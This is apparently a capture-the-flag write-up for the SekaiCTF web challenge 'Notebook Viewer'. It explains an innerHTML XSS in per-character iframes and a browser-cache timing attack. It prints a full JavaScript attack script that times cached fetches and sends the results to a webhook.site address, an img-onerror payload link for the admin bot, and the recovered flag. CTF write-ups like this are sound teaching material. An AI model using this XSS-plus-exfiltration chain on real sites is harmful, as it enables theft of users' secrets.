 ```yaml
---
title: Notebook Viewer
summary: Miku created this notebook, can you extract its secrets?
tags: [SekaiCTF, Web, Timing Attack]
date: 2025-08-18
showtoc: true
---
```


# Notebook Viewer

## Description

Miku created this notebook, can you extract its secrets?

Flag format: `SEKAI{[a-zA-Z0-9{}$@(<&!*#+_\-]+}`

Difficulty: 🔶🔶🔶  
Author: Qyn

[Admin bot](https://ctf.sekai.team/adminbot/nbv)  
[Given files](/sekaictf/notebook-viewer/nbv-dist.7z)

## Solution

The challenge presents a single HTML page displaying a notebook.

![index.html](/sekaictf/notebook-viewer/index.png)

From examining the bot's source code, we know that we need to retrieve the secret note from another browser tab.

```adminbot.js
let page1 = await browser.newPage();
await page1.goto(`${SITE}/?note=${encodeURIComponent(FLAG)}`, {
    waitUntil: "networkidle2"
});

let page2 = await browser.newPage();
await page2.goto(url);
```

At first glance, this seems impossible, because browser tabs typically can't interact with each other.
However, let's explore further.

The first thing I attempted was an XSS attack in the secret note with `?note=<img src=x onerror=alert('XSS') />`, but this didn't work.
I then inspected the page's JavaScript code to see if any sanitization was applied.
There was no sanitization, but the text was displayed in a peculiar way: each letter was rendered in its own iframe, preventing the XSS from executing.

```index.js
const uri = new URL(location.href);
const note = uri.searchParams.get('note') || 'my secret notes';

function srcFor(i, code) {
  return `https://nbv-${i}-${code}.chals.sekai.team/`;
}

for (let i = 0; i < note.length; i++) {
  const code = note.codePointAt(i);
  const frame = document.createElement('iframe');
  frame.scrolling = 'no';
  frame.src = srcFor(i, code);
  wrap.appendChild(frame);
}
```

Upon inspecting the iframe code, I discovered that it simply displayed the letter specified in its URL or the text passed through the query parameter.
This opened the door for an XSS vulnerability.

```frame.js
let uri = new URL(location.href);
const note = uri.searchParams.get("note");
const txt = document.querySelector('#note');

if (note)
    txt.innerHTML = note;
else
    txt.innerHTML = String.fromCharCode(uri.host.split('-')[2].split('.')[0]);
```

At this point, I had reviewed the provided files, understood how the application worked, found an XSS vulnerability, but still had no clear idea on how to retrieve the flag.

Then, I asked myself: why does the `srcFor` function include the character position when building the iframe URL? It isn't used by the iframe.
That's when it clicked: the combination of the character position and code is used to generate a unique URL for each letter, which potentially exposed the website to a resource timing attack.

Let's break down how the website operates:
- The flag is stored as a secret note.
- For each letter, the website sends a request to a URL containing the letter's position and code, and displays the letter in an iframe.
- Because the browser caches these requests, we can exploit this by making requests for all possible letters and observe which one is served fastest.
- The letter that is served the quickest will be the one already cached, meaning it’s part of the flag.

To automate this process, I wrote a script that attempts all characters for a given position and reports the most probable characters, ordered by fetch time, via a webhook.
While I could have attempted to guess multiple letters at once, I avoided this as it might have caused the flag request to become uncached due to the large volume of requests made by the script.

```js
const INDEX = 1; // Letter position
const CHARSET = shuffle(
  // Shuffle the charset to avoid giving an advantage to the first letters
  "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}@(<&!*#+_-",
);

const URL = (i, code) => `https://nbv-${i}-${code}.chals.sekai.team/`;
const WEBHOOK = "https://webhook.site/e5245448-2fa6-417d-9348-65d36f92d28e/";

function shuffle(str) {
  const array = str.split("");
  for (let i = array.length - 1; i > 0; i--) {
    const j = Math.floor(Math.random() * (i + 1));
    [array[i], array[j]] = [array[j], array[i]];
  }
  return array.join("");
}

function sort(dict) {
  let items = Object.keys(dict).map(function (key) {
    return [key, dict[key]];
  });

  items.sort(function (first, second) {
    return first[1] - second[1];
  });

  return items.map((key) => key[0]);
}

async function timingAttack() {
  const fetchPromises = []; // Array to store all fetch promises
  const charTimes = {}; // Object to store character-fetch times

  // PerformanceObserver to monitor network fetch timings
  let observer = new PerformanceObserver((list) => {
    list.getEntries().forEach((entry) => {
      const timeToFetch = entry.responseEnd - entry.fetchStart;
      if (timeToFetch > 0 && entry.name.includes("chals.sekai.team")) {
        const char = String.fromCharCode(
          entry.name.split("-")[2].split(".")[0],
        );
        charTimes[char] = timeToFetch;
      }
    });
  });

  observer.observe({ type: "resource", buffered: true });

  // Fetch the iframe URL for each character
  for (const c of CHARSET) {
    fetchPromises.push(fetch(URL(INDEX, c.charCodeAt(0)), { mode: "no-cors" }));
  }

  // Wait for all fetch requests to complete
  await Promise.all(fetchPromises);

  observer.disconnect();

  // Send the results (sorted character fetch times) to the webhook
  fetch(`${WEBHOOK}?${INDEX}=${encodeURIComponent(sort(charTimes).join(""))}`, {
    mode: "no-cors",
  });
}

timingAttack();
```

To execute the script, I used the XSS vulnerability I discovered earlier, embedding the link to the admin bot: `https://nbv-0-83.chals.sekai.team/?note=<img src=x onerror='[URL_ENCODED_SCRIPT]' />`.
Using this technique, I was able to retrieve the entire flag, one letter at a time, by sending my link to the admin bot 4-5 times per character to determine the consistently fastest response.

```
SEKAI{prOc3s5_IsoLAT10n_X5l34K5_fTW}
```

# References

* Practical CTF: [Timing Attacks](https://book.jorianwoltjer.com/cryptography/timing-attacks)
